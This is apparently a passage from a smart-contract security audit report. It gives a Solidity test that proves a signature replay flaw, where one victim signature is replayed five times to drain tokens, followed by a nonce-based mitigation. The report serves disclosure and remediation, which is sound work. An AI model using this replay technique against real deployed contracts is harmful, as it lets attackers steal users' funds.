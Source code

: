 ### PoC

```solidity
function test_SignatureReplayAttack() public {
    // Setup
    string memory base64Proposal = "test base64 proposal";
    string memory serverURL = "http://example.com";
    uint256 tokenAmount = 20 * 10**18;
    
    // Add payment token and set cost
    blueprint.addPaymentAddress(address(mockToken));
    blueprint.setCreateAgentTokenCost(address(mockToken), tokenAmount);
    
    // Setup victim account with tokens
    address victim = vm.addr(0xB0B);
    mockToken.mint(victim, 100 * 10**18);
    
    // Victim approves contract to spend tokens
    vm.prank(victim);
    mockToken.approve(address(blueprint), 100 * 10**18);
    
    // Victim signs transaction
    bytes32 digest = blueprint.getRequestDeploymentDigest(projectId, base64Proposal, serverURL);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(0xB0B, digest);
    bytes memory signature = abi.encodePacked(r, s, v);
    
    // Initial token balance
    uint256 initialBalance = mockToken.balanceOf(victim);
    
    // Attacker replays the signature multiple times
    for (uint i = 0; i < 5; i++) {
        blueprint.createAgentWithTokenWithSig(
            projectId, 
            base64Proposal, 
            workerAddress, 
            serverURL, 
            address(mockToken), 
            signature
        );
    }
    
    // Verify victim lost 5x the expected amount
    uint256 finalBalance = mockToken.balanceOf(victim);
    assertEq(finalBalance, initialBalance - (5 * tokenAmount), "Victim lost 5x tokens due to replay attack");
}
```

### Mitigation

- Implement a nonce system: 
```solidity
// Add mapping to track nonces
mapping(address => uint256) private nonces;

// Add function to get current nonce
function getNonce(address signer) public view returns (uint256) {
    return nonces[signer];
}

// Add function to increment nonce (called after signature verification)
function incrementNonce(address signer) internal {
    nonces[signer]++;
}
```